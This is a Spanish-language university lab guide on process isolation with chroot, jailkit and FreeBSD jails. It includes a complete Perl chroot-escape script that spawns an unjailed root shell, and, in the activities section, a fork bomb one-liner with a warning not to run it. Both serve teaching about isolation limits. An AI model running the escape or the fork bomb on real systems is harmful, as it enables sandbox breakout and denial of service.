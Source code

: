 ### Introducción a contenedores en Linux
Universidad ICESI  
Curso: Sistemas Operativos  
Docente: Daniel Barragán C.  
Tema: Introducción al aislamiento de procesos (chroot y jaulas BSD)
Correo: daniel.barragan at correo.icesi.edu.co

### Objetivos
* Conocer los fundamentos de las tecnologías de contenedores tipo LXC y LXD en Linux
* Crear entornos aislados para la ejecución de procesos a nivel del sistema operativo

### Introducción
En esta guía se introducen conceptos acerca de la tecnología de contenedores virtuales y sus fundamentos. Además se presentan
ejemplos a través de los cuales se podrá experimentar con cada una de dichas tecnologías. La información presentada es resultado de la recopilación de distintas fuentes de información, las referencias se presentan al final de la guía.

### Desarrollo

#### Chroot
**chroot** en los sistemas operativos derivados de Unix, es una operación que invoca un proceso, cambiando para este y sus hijos el directorio raíz del sistema. El sistema chroot fue introducido por Bill Joy el 18 de marzo de 1982.

La creación de un ambiente aislado con **chroot** implica varios pasos. En esta guía se empleará la herramienta jailkit que automatiza varios de los pasos para crear entornos **chroot**

Es posible instalar el rpm de jailkit directamente, sin embargo a continuación se presentan los pasos para la instalación desde las fuentes

```console
yum install gcc make openssh-server wget bzip2 -y
cd /tmp
wget http://repo.iotti.biz/CentOS/7/srpms/jailkit-2.17-1.el7.lux.1.src.rpm
rpm2cpio jailkit-2.17-1.el7.lux.1.src.rpm | cpio -idmv
tar xvf jailkit-2.17.tar.bz2
cd jailkit-2.17/
./configure
make
make install
```

Configurar un chroot para un nuevo usuario
```console
adduser alice
mkdir /home/jail
chown root:root /home/jail
jk_init -v -j /home/jail basicshell editors extendedshell netutils ssh sftp scp jk_lsh
jk_jailuser -m -j /home/jail alice
mkdir /home/jail/tmp
chmod a+rwx /home/jail/tmp
vi /home/jail/etc/passwd

root:x:0:0:root:/root:/bin/bash
alice:x:1004:1004::/home/alice:/bin/bash

```

#### Usando chroot

Edite el archivo de configuración ssh para permitir conexiones remotas
```
vi /etc/ssh/sshd_config
```
```
# To disable tunneled clear text passwords, change to no here!
PasswordAuthentication yes
#PermitEmptyPasswords no
#PasswordAuthentication no
```

Reinicie el servicio de ssh
```
# systemctl restart sshd
```

Realice una conexión remota como el usuario jane
```
# ssh alice@127.0.0.1
```

Una vez haya accedido con ssh, observe los archivos y directorios en la raíz
```
$ cd /
$ ls -al
```

**Nota**: Los entornos **chroot** no deben ser diseñados para aislar al usuario root.

#### Escapando de chroot

A continuación se demuestra como el usuario root puede **escapar** del ambiente aislado chroot.

Existen versiones de esta prueba en lenguaje C, para lo cual se requiere que en el entorno chroot se haya instalado
el compilador de C. Esta versión usa el lenguaje perl, por tanto se requiere que la **victima** al haber creado el entorno de chroot, haya realizado la instalación de perl.

Ejecute el siguiente comando para simular que se cuenta con el compilador de perl en el ambiente chroot
```
# jk_init -v -j /home/jail perl
```

Ingrese al ambiente chroot como root ejecutando el siguiente comando

```
# chroot /home/jail
```

Verifique que se encuentra dentro del entorno de chroot listando los archivos en el directorio raíz
```
# ls /
```

Por medio de un editor de texto escriba el siguiente script
```
vi prisionbreak.pl
```
```
#!/usr/bin/perl -w
use strict;
# unchroot.pl Dec 2007
# http://pentestmonkey.net/blog/chroot-breakout-perl

# This script may be used for legal purposes only.

# Go to the root of the jail
chdir "/";

# Open filehandle to root of jail
opendir JAILROOT, "." or die "ERROR: Couldn't get file handle to root of jailn";

# Create a subdir, move into it
mkdir "mysubdir";
chdir "mysubdir";

# Lock ourselves in a new jail
chroot ".";

# Use our filehandle to get back to the root of the old jail
chdir(*JAILROOT);

# Get to the real root
while ((stat("."))[0] != (stat(".."))[0] or (stat("."))[1] != (stat(".."))[1]) {
        chdir "..";
}

# Lock ourselves in real root - so we're not really in a jail at all now
chroot ".";

# Start an un-jailed shell
system("/bin/sh");
```

Ejecute el script, y posteriormente vuelva a listar los archivos del directorio raíz
```
# ./prisionbreak.pl
# ls
```

**Nota**: Por favor no ser un script kiddie http://www.urbandictionary.com/define.php?term=script%20kiddie

#### FreeBSD Jails
FreeBSD es un sistema operativo open-source y descendiente directo de BSD (Berkeley Software Distribution). La primera versión fue liberada en 1993 y hoy en día es un sistema operativo ampliamente usada alrededor del mundo. La diferencia principal con Linux, es que FreeBSD es un sistema operativo completo (kernel, drivers de dispositivos, utilidades y documentación). Además la licencia que usa es la BSD license que permite modificaciones en el código fuente sin la obligación de liberar los cambios.

Las jaulas son un mecanismo de seguridad y una implementación para dar soporte a la virtualización. Es una mejora al método tradicional de chroot que aparece en la versión 4 de FreeBSD. Un proceso que se ejecuta en una jaula no puede acceder a recursos
por fuera de ella. Cada jaula tiene su propio hostname y dirección IP. Es posible ejecutar varias jaulas a la vez pero estas se ejecutan sobre el mismo kernel, por tanto solo se pueden ejecutar en ellas software soportado por el kernel de FreeBSD.

### Actividades

* Investigue en que consiste una bomba fork y como prevenirla usando las herramientas vistas en esta guía.

**Nota:** NO ejecute este comando en una consola hasta investigar primero que hace
```
# :(){ :|: & };:
```

### Referencias
http://linuxpitstop.com/chroot-ssh-users-on-centos-7/  
http://www.tldp.org/pub/Linux/docs/ldp-archived/system-admin-guide/translations/es/html/ch05s02.html  
https://github.com/torvalds/linux/blob/master/Documentation/admin-guide/devices.txt
http://pentestmonkey.net/blog/chroot-breakout-perl

https://www.freebsd.org/  
